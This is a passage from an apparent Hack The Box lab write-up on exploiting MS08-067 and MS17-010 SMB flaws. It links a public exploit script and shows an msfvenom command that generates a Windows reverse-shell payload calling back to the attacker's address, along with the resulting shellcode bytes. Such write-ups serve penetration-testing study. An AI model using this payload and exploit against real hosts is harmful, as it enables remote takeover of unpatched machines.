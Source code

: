 We discovered the host is vulnerable to notorious SMB exploits `MS08-67 (exploited widely by Conficker worm)` and `MS17-010 (by Shadow Brokers)`.

Let's exploit both vulnerabilities **MS08-67** & **MS17-010** manually sticking to OSCP pattern using publicly available exploit scripts.

## MS08-67

There are multiple MS08-67 exploits available on the internet but the one which worked the best for me is from **Jivoi** available [**here**](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

To make this python script work we just have to replace the default given `shellcode` with our own. Shellcode generation command via `msfvenom` for different payload style is already given in comments by the author inside the script.

### Generating Shellcode

```shell
cfx:  ~/Documents/htb
→ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 EXITFUNC=thread -b "x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows                                
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=55, char=0x78)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1488 bytes
unsigned char buf[] =
"\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xeb\xc1\x4c\x8f\x83\xee\xfc\xe2\xf4\x17\x29\xce\x8f\xeb\xc1"
"\x2c\x06\x0e\xf0\x8c\xeb\x60\x91\x7c\x04\xb9\xcd\xc7\xdd\xff"
"\x4a\x3e\xa7\xe4\x76\x06\xa9\xda\x3e\xe0\xb3\x8a\xbd\x4e\xa3"
"\xcb\x00\x83\x82\xea\x06\xae\x7d\xb9\x96\xc7\xdd\xfb\x4a\x06"
"\xb3\x60\x8d\x5d\xf7\x08\x89\x4d\x5e\xba\x4a\x15\xaf\xea\x12"
"\xc7\xc6\xf3\x22\x76\xc6\x60\xf5\xc7\x8e\x3d\xf0\xb3\x23\x2a"
"\x0e\x41\x8e\x2c\xf9\xac\xfa\x1d\xc2\x31\x77\xd0\xbc\x68\xfa"
"\x0f\x99\xc7\xd7\xcf\xc0\x9f\xe9\x60\xcd\x07\x04\xb3\xdd\x4d"
"\x5c\x60\xc5\xc7\x8e\x3b\x48\x08\xab\xcf\x9a\x17\xee\xb2\x9b"
"\x1d\x70\x0b\x9e\x13\xd5\x60\xd3\xa7\x02\xb6\xa9\x7f\xbd\xeb"
"\xc1\x24\xf8\x98\xf3\x13\xdb\x83\x8d\x3b\xa9\xec\x3e\x99\x37"
"\x7b\xc0\x4c\x8f\xc2\x05\x18\xdf\x83\xe8\xcc\xe4\xeb\x3e\x99"
"\xdf\xbb\x91\x1c\xcf\xbb\x81\x1c\xe7\x01\xce\x93\x6f\x14\x14"
"\xdb\xe5\xee\xa9\x46\x85\xe5\xcf\x24\x8d\xeb\xc0\xf7\x06\x0d"
"\xab\x5c\xd9\xbc\xa9\xd5\x2a\x9f\xa0\xb3\x5a\x6e\x01\x38\x83"
"\x14\x8f\x44\xfa\x07\xa9\xbc\x3a\x49\x97\xb3\x5a\x83\xa2\x21"
"\xeb\xeb\x48\xaf\xd8\xbc\x96\x7d\x79\x81\xd3\x15\xd9\x09\x3c"
"\x2a\x48\xaf\xe5\x70\x8e\xea\x4c\x08\xab\xfb\x07\x4c\xcb\xbf"
"\x91\x1a\xd9\xbd\x87\x1a\xc1\xbd\x97\x1f\xd9\x83\xb8\x80\xb0"
"\x6d\x3e\x99\x06\x0b\x8f\x1a\xc9\x14\xf1\x24\x87\x6c\xdc\x2c"
"\x70\x3e\x7a\xac\x92\xc1\xcb\x24\x29\x7e\x7c\xd1\x70\x3e\xfd"
"\x4a\xf3\xe1\x41\xb7\x6f\x9e\xc4\xf7\xc8\xf8\xb3\x23\xe5\xeb"
"\x92\xb3\x5a";
```
